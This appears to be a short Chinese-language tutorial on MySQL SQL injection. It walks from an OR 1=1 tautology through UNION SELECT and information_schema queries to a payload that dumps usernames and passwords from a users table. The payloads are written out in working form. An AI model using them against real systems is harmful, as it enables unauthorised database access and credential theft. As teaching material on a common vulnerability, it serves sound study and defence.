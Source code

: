 Low-level
---
通常 sql 語法會長這樣：sql = SELECT * FROM (tabel_name) WHERE (column_name) = '$id';

SQL injection 旨在正常的 sql 語法中執行惡意的 sql 語法來得到敏感資料(i.g. 帳號密碼...)。

Step 1.
---

可以更改上面 '$id' 的部分，改成：1' OR 1 = 1; #

(p.s. 有時候會因為'導致 query 失敗，要注意！)

因為 OR 的關係，導致該語法會 query 所有的使用者出來。

Step 2.
---

由於我們會想知道更多資訊，會使用 UNION SELECT ... 去做二次查詢

因為 SELECT 出來的變數數量會被前台顯示限制住，所以可以會加入 group_concat(variable1, variable2, ...) 全部顯示出來。

因此可以將 '$id' 改成：UNION SELECT version(), database(); # 來查詢資料庫

Step 3.
---

MySQL 5.0 以上存在 information_schema，可以利用 information_schema 獲得資料庫進一步資訊

找出資料庫裡所對應的所有資料表：SELECT table_name FROM information_schema.tables

所以套用上面的概念，可以改寫成：1' UNION SELECT 1, group_concat(table_name) FROM information_schema.tables WHERE table_schema = database(); #

上面語法可以看到系統會使用到那些 Table 進行 query，接著再根據 Table 去查該 Table 有哪些欄位(column)：

改寫成：1' UNION SELECT 1,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'; #

知道使用哪張 Table，又知道 Table 裡面有哪些欄位，那就可以來查想要的資料了

查看帳號和密碼：1' UNION SELECT 1, group_concat(user, password) FROM users; #
